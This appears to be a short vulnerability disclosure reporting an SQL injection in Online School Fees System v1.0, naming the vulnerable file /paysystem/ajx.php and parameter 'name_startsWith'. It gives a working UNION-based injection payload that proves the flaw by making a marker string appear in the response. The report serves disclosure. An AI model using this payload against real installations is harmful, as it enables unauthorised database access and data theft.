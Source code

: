 # Online School Fees System v1.0 has SQL injection

BUG_Author：zhangyf

Website source address: https://www.sourcecodester.com/php/11708/online-school-fees-system.html

Vulnerability File: /paysystem/ajx.php

GET parameter 'name_startsWith' exists SQL injection vulnerability

Payload: type=studentname&name_startsWith=b') union all select concat(0x66676869,0x515253),null-- -

The union query is successful, and the string "fghiQRS" appears as expected, which proves that there is a SQL injection vulnerability

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/3.png)

